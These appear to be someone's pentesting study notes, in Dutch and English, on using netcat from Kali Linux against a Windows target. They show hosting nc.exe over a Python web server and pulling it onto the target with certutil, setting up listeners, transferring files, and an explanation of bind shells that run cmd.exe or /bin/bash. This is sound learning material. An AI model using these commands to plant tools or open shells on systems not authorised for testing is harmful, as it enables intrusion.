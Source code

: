 
- The system you want to **transfer**/receive the files (to) needs to have the listener (`nc -nvlp`) set up 
- the system that is **sending** the file will be **connecting** to that netcat listener 



**Stap 6: Het Overzetten van de Netcat Executable naar het Windows Systeem**

1. Navigeer naar de '/usr/share/windows-binaries' directory op Kali Linux:

   `cd /usr/share/windows-binaries`

2. Start een HTTP-server met Python: (de folder waarin je server start wordt gehost in webserver)

   `python -m SimpleHTTPServer 80`

3. Identificeer het IP-adres van je Kali Linux-systeem:

   `ifconfig`

4. Navigeer naar het target-systeem.

5. Open een command prompt op het targetsysteem en voer het volgende commando uit om 'nc.exe' te downloaden van de Kali Linux HTTP-server:

   `certutil -urlcache -f http://[Kali-IP]/nc.exe nc.exe`

**Stap 7: Het Opzetten van een Netcat Listener**

6. Op de Kali Linux-machine, voer het volgende commando uit om een Netcat listener op te zetten:

   `nc -nvlp 1234`

7. Verbind vanaf het target-doelsysteem met de Netcat listener:

   `nc -nv [Kali-IP] 1234`



**Stap 9: Bestanden Overdragen met Netcat**

9. Netcat kan ook worden gebruikt om bestanden tussen de listener en de client over te dragen.

10. Maak een bestand genaamd 'test.txt' op de Kali Linux-machine:

    `echo "Hello, this was sent over with Netcat" >> test.txt`

11. Zet een Netcat listener op het target die het betstand moet ontvangen (en dus moet luisteren)
    `nc.exe -nvlp 1234 > test.txt`

12. Verbind vanaf de Kali Linux-machine met de listener en stuur de inhoud van 'test.txt':

    `nc -nv [Windows-IP] 1234 < test.txt`



### Bind Shells 

- A bind shell is a type of remote shell were the attacker connects directly to a listener on the target system, allowing for execution of commands on the target system
- A netcat listener can be set up to execute a specific executable like **cmd.exe** (windows) or **/bin/bash** (linux) when a client connects to the listener
- A bind shell is a type of remote shell where the attacker connects to a listener on the target system. In order for this to work a listener needs to be running on the target system so that the attacker can connect to it and consequently obtain a remote shell.
- This type of shell is not preferred as the attacker directly connects to the target system and in most cases, ingress traffic is always blocked or flagged as suspicious. Nonetheless, it is very important to learn how bind shells work and how they can be setup with Netcat.
- Reverse shell is better than bind shells. 
	- problems with bind shells?
		- you need netcat on target system
		- inbound traffic will be blocked by firewall (incoming traffic) 
